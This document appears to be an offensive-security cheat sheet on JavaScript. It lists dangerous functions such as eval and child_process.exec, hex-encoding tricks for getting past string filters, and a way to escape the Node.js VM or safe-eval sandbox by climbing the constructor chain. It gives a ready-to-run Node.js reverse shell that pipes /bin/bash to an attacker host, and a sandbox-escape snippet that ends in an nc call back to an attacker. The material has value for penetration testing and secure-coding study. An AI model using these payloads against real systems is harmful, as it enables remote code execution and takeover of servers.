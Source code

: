 # JavaScript

### Notes
- JavaScript strings can be natively hex-encoded e.g. `"\\\\x2fbin\\\\x2fbash"` - useful for string/regex bypass

### Dangerous Functions

```js
/* RCE */
eval()                  //evaluate string as a javascript code
safe-eval()             //same as eval, but more secure however sandbox escape exists (NSP 337, CVE-2017-16088)
setTimeout(string, 2)
setInterval(string)
Function(string)

/* Command Execution */
child_process.exec()

/* LFI */
require()
```

### Reverse Shell

```js
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Escaping NodeJS VM (sandbox)

- Escaping NodeJS VM or `safe-eval` is possible, see - and [escape.js](/vulnerable-code-examples/js/escape.js) for PoC

**Summary**

- Just about everything in JavaScript has a constructor which can be accessed (any primitive data type/object).
- Even the constructor has a constructor, and that constructor is the constructor of functions.
- If you call the `function constructor` with a string argument, it basically does an `eval` and makes a function whose body is that string. (wtf)
- The provided context in the `safe-eval` makes this more difficult to work with, however unless the context is limited to ONLY primitive types, we can likely still break out of the sandbox by accessing the constructor of a non-primitive object in the context.
- We can then use for `require` to get other dependencies (`child_process`), to execute `exec` to get a reverse shell.

Getting `require` from `process`:

```js
process = this.constructor.constructor('return (function(){return process})()')();
var require = process.mainModule.require;

// then we can do require('child_process').exec('nc <IP> <PORT>');
```

Other useful resources for understanging the JavaScript sandbox workings:
- https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/
- https://odino.org/eval-no-more-understanding-vm-vm2-nodejs/
